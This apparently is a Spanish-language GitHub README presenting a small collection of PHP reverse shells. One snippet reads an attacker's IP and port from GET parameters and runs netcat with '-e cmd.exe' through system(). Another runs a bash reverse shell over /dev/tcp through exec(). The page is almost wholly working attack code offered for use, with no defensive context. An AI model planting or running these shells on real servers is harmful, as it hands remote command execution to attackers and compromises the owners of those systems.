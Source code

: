 # Shells_PHP
Colección de reverse shells escritas en PHP 


## Para empezar

Colección de shells escritas en PHP para establecer una conexión remota, para distintas situaciones

### PHP + HTTP = GET Shell

Se establece la conexión a través de un simple GET

```
<?php

$ip = $_GET["ip"];
$port = $_GET["port"];
$cmd = "nc -n -v " . $ip . " " . $port . " -e cmd.exe";
# $cmd = "nc " . $ip . " " . $port . " -e cmd.exe";

echo "Executing " . $cmd;
system($cmd);

?>

```

### PHP/bash reverse shell

Sencilla Shell que ejecuta bash en php

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
?>
```


